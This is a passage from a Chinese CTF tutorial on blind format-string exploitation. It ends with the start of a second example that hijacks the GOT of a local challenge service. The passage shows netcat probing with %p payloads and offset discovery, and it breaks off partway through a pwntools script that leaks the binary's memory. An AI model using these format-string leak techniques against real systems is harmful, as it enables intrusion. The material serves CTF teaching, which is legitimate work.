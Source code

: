 最后在输出中简单看了看，得到 flag

```shell
////////
////////
\x00\x00\x00\x00\x00\x00\x00\xff
flag{thi
s_is_fla
g}\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\xfe\x7f\x00\x00
```

### 例子 2 - 盲打劫持 got

源码以及部署文件均已经在 [blind_fmt_got](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_got) 文件夹中。

#### 确定程序位数 

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为 64 位。

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
%p
0x7fff3b9774c0
```

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。

#### 确定偏移 

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
aaaaaaaa%p%p%p%p%p%p%p%p%p
aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025
```

据此，我们可以知道格式化字符串的起始地址偏移为 6。

#### 泄露 binary

由于程序是 64 位，所以我们从 0x400000 处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入 '\x00' 字符的，不然没法泄露怎么玩，，除此之后，输出必然是 '\x00' 截断的，这是因为格式化字符串漏洞利用的输出函数均是 '\x00' 截断的，所以我们可以利用如下的泄露代码。

```python
##coding=utf8
from pwn import *

##context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
```